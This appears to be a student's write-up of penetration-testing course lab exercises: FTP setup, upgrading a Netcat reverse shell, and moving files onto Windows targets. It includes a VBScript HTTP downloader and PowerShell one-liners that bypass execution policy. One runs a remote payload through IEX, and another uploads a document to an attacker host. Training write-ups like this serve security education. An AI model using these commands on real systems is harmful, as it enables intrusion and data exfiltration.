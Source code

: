 # 16.1.4 Considerations and Preparations
**1.  Start the Pure-FTPd FTP server on your Kali system, connect to it using the FTP client on the Debian lab VM, and observe how the interactive prompt works.**

The following script will create the necessary users and gorups as well as start the FTP service
```bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```


![[systemctl_ftpd.png]]

We can now switch to our Debian client and attempt to connect.
![[frp_connect.png]]


**2.  Attempt to log in to the FTP server from a Netcat reverse shell and see what happens.**

After setting up our listener on the Debian client we can use netcat to connect to our listener. We then use the command "ftp" to attempt to interact with our FTP server running on our Kali machine. This will result in a loss of control of our shell.
![[non-interactive_ftp.png]]

**3.  Research alternative methods to upgrade a non-interactive shell.**

To upgrade our shell we can use the python module "pty" , a standard module that is often used to upgrade to interactive shells. We can see that after upgrading our shell via "pty" we can access the ftp server running on our Kali machine.
![[interactive_ftp.png]]


# 16.2.6 Transferring Files with Windows Hosts

**1.  Use VBScript to transfer files in a non-interactive shell from Kali to Windows.**

We must first write a vbs script which will act like a simple http downloader.
```vbs
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1)
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1
Const HTTPREQUEST_PROXYSETTING_PROXY = 2
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts
 Err.Clear
 Set http = Nothing
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")
 http.Open "GET", strURL, False
 http.Send
 varByteArray = http.ResponseBody
 Set http = Nothing
 Set fs = CreateObject("Scripting.FileSystemObject")
 Set ts = fs.CreateTextFile(StrFile, True)
 strData = ""
 strBuffer = ""
 For lngCounter = 0 to UBound(varByteArray)
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))
 Next
 ts.Close
```

We can then run the script with cscript and download files from our Kali machine's server.
![[Pasted image 20220720022641.png]]

**2.  Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.**

For more recent versions of Windows a much better approach is to utilize PowerShell. We start by screating the script with the following code.
```
$webclient = New-Object System.Net.WebClient 
$url = "http://192.168.119.130:9002/evil.txt" 
$file = "new-exploit.txt" 
$webclient.DownloadFile($url,$file) 
```

This creates the wget.ps1 script. In order to run the script we must first enable the execution of PowerShell scripts. We can do this with the following command, including a few extra flags to set a few other options.
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
And we can see our file has downloaded.
![[Pasted image 20220720024112.png]]

This script can be run in a number of ways. For example, a one liner version:
`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.130/evil.txt', 'new-evil.txt')`

Or as a one liner, executing the requested payload remotely rather than saving and execute the file locally.
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')`

**3.  For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-6) was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.**

To use Invoke-WebRequest to download a file from our Kali server we can use the following command (note the shorthand IWR which is used in place of the full command Invoke-WebRequest)
`powershell IWR -uri http://192.168.119.130:9002/evil.txt -OutFile evil_IWR.txt`

`powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')`

![[Pasted image 20220721153421.png]]
**4.  Use TFTP to transfer files from a non-interactive shell from Kali to Windows.**

**Note:** If you encounter problems, first attempt the transfer process within an interactive shell and watch for issues that may cause problems in a non-interactive shell.